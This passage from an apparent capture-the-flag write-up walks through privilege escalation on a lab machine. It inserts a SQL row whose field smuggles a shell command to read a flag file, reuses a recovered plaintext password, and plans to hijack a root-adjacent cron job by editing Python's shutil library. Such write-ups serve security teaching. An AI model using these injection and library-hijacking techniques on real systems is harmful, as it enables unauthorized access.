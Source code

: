 Then we can move to the correct database:

```sql
show databases;
use library;

show tables;
select * from dreamers;
```

Inject a command to read the flag:

```sql
insert into dreams (dreamer, dream) VALUES ("'flag'", "''; cat ~/death_flag.txt; # ");
```

Now, if we run again the script we will see a new line with the flag printed in the output.

```bash
sudo -u death python3 /home/death/getDreams.py
```

The final command that will be executed by the script "getDreams.py" is:

```bash
echo 'flag'; cat ~/death_flag.txt;
```

In this way we have found the Death's flag.

### What is the Morpheus Flag?

First things first, we can obtain the credentials of the Death user from the script getDreams.py

<Image src={require("./14-death-password.webp").default} />

Now we can change the user from Lucien to Death using the password !mementoMORI666!

We can try to look in the system for interesting files of Morpheus:

```bash
find / -type f -group morpheus 2> /dev/null
```

<Image src={require("./15-morpheus-files.webp").default} />

<Image src={require("./16-morpheus-folder.webp").default} />

The script restore.py is readable by all and it contains a script for the backup of the kingdom folder.

This script could be used for a cron job. We could try to inject some instructions inside the shutil library and then wait for the job to work running the commands as Morpheus.

```bash
find / -name *shutil* 2> /dev/null
ls -al /usr/lib/python3.8/shutil.py
```

<Image src={require("./17-shutil.webp").default} />

The user death can edit the file by adding additional instructions in the function copy2 used by the script restore.
